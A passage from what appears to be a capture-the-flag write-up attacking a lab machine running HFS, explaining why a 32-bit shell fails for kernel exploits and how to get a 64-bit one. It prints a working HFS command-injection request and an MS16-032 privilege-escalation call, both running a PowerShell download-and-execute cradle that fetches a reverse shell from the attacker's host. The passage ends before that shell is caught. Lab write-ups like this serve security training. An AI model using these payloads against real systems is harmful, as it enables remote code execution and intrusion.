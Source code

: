     
    
    PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
    False
    

That is because the HFS process is likely running as a 32-bit process. This
table (stolen from [ss64.com](https://ss64.com/nt/syntax-64bit.html)) shows
how the different paths work based on the current session architecture:

![image-20210314142131188](https://0xdfimages.gitlab.io/img/image-20210314142131188.png)

So from within a 32-bit session, calling PowerShell from the
`C:\windows\system32` path will give the 32-bit version. Being in a 32-bit
session trying to run kernel exploits against a 64-bit OS will fail.

To get a 64-bit shell, I’ll use the full path to PowerShell in the `sysNative`
directory:

    
    
    GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
    Host: 10.10.10.8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: HFS_SID=0.916518518235534
    Upgrade-Insecure-Requests: 1
    

The resulting shell is 64-bit:

    
    
    PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
    True
    

### MS16-032

The exploit-db link above will not work for this kind of scenario, as it will
pop a new window on the box, rather than giving me the ability to run a
command. Luckily, the folks in the Empire project ported a [version of this
script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-
MS16032.ps1) to add a command option.

I’ll download a copy of that, and add a line at the end to call it with a
command to download and execute my reverse shell:

    
    
    Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
    

From the 64-bit shell, (and with both a Python web server serving `rev.ps1`
and `nc` listening on 443 to get the shell), I’ll use the same PowerShell
cradle to download and execute the exploit:
